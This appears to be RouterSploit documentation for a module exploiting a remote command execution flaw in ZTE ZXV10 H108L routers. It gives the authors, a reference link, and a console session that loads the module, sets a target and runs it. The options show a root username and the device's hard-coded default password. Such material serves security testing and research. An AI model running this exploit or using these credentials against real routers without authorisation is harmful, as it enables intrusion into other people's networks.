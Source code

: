 # ZTE ZXV10 RCE

## Description
Exploits ZTE ZXV10 H108L remote code execution vulnerability that allows executing commands on operating system level.

## Authors
* Anastasios Stasinopoulos # vulnerability discovery & routersploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://github.com/stasinopoulos/ZTExploit/](https://github.com/stasinopoulos/ZTExploit/)

## Vulnerable devices
* ZTE ZXV10 H108L

## Usage
```
rsf > use exploits/zte/zxv10_rce
rsf (ZTE ZXV10 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     root                 Username to log in with
   password     W!n0&oO7.            Password to log in with


rsf (ZTE ZXV10 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (ZTE ZXV10 RCE) > run
[*] Running module...
```
